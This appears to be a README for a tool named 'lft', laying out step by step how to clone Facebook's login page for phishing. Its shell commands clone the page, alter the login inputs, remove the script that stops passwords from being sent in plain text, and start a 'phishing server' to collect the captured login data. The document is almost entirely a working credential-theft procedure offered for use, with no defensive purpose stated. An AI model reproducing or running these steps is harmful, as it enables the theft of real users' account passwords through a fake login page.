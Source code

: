# how to clone facebook login page
### steps
- clone login page<br>
  ```sh
  $: lft-clone clone https://www.facebook.com/login
  ```
- use parser to change page login inputs<br>
  ```sh
  $: lft-analyzer modify clone.html 
  ```
- remove the script that does not allow the password to be sent in plain text to the server
  ```sh
  lft-analyzer remove clone.html -s 'script[src~="https://static.xx.fbcdn.net/rsrc.php/v3/yk/r/MTfFXMprGyn.js?_nc_x=Ij3Wp8lg5Kz"]' -u 
  ```
  
- now: start phishing server and wait for phishing data<br>
  ```sh
  $: lft-webserver listen 8080 -f clone.html
  ```
